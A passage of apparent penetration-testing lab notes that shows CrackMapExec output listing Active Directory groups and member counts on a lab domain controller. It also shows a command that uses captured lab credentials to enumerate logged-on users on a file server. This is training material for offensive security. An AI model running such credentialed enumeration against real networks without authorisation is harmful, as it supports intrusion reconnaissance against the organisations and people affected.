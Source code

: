 SMB         172.16.5.5      445    ACADEMY-EA-DC01  Users                                    membercount: 4

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Guests                                   membercount: 2

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Print Operators                          membercount: 0

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Backup Operators                         membercount: 1

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Replicator                               membercount: 0

<SNIP>

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Domain Admins                            membercount: 19

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Domain Users                             membercount: 0

<SNIP>

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Contractors                              membercount: 138

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Accounting                               membercount: 15

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Engineering                              membercount: 19

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Executives                               membercount: 10

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Human Resources                          membercou

\```

1. \*\*CME - Logged On Users\*\*

\```jsx

Foresty@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users

SMB         172.16.5.130    445    ACADEMY-EA-FILE  [\*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-FILE) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)

SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 (Pwn3d!)

SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] Enumerated loggedon users

SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\clusteragent              logon\_server: ACADEMY-EA-DC01

SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\lab\_adm                   logon\_server: ACADEMY-EA-DC01

